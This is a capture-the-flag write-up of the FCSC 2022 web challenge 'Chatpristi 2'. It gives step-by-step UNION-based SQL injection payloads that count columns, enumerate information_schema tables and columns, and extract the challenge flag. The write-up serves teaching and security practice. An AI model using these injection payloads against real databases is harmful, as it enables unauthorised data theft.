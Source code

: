 # Write-up: FCSC 2022 - Web Challenge - Chatpristi 2

## Challenge Description
The challenge consisted of a simple web application featuring a collection of cat memes and a search bar. As soon as I accessed the website, I noticed the search bar, which immediately caught my attention as a possible entry point for injection attacks.

---

## Reconnaissance
I started by exploring the web page to understand its layout and possible vulnerabilities. The search bar seemed like a great candidate to test for SQL Injection vulnerabilities, as such fields often interact with the database.

---

## SQL Injection Testing and Exploitation

### Step 1: Testing for the Number of Columns
To determine the number of columns in the vulnerable table, I began with a basic payload:

    ') UNION SELECT null --
  This produced an error indicating a column mismatch. I iteratively increased the number of null values until no error was returned:

    ') UNION SELECT null, null, null--
  This confirmed that the table had three columns.

  ![Alt Text](1.jpg)

### Step 2: Determining Column Data Types
  Next, I tested the data types for each column by replacing null with test values:

    ') UNION SELECT 1, 'a', 'a'--
  The query executed successfully, indicating the first column was of type int and the other two were string.

  ![Alt Text](2.jpg)

### Step 3: Enumerating Tables
  To identify all tables in the database, I executed the following payload:

    ') UNION SELECT 1, 'i', table_name FROM information_schema.tables--
   This listed all tables in the database. Among the results, one table stood out:
        
                  ___youw1lln3verfindmyfl4g___.

  ![Alt Text](3.jpg)

### Step 4: Enumerating Columns in the Target Table
   I then explored the columns of the target table using this payload:

    ') UNION SELECT 1, 'i', column_name FROM information_schema.columns WHERE table_name = '___youw1lln3verfindmyfl4g___'--
  The query returned two columns:

              id
              fstbg0adwb8f5upmg
              
  ![Alt Text](4.jpg)
    
### Step 5: Retrieving the Flag
  Finally, I crafted a payload to extract the contents of the table:

  ') UNION SELECT 1, id::text, fstbg0adwb8f5upmg FROM ___youw1lln3verfindmyfl4g___--

   This query revealed the flag stored in the table:

                    FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}
  Final Results:
  
![Alt Text](5.jpg)

  
  The SQL injection exploitation confirmed the vulnerability and successfully extracted the flag.
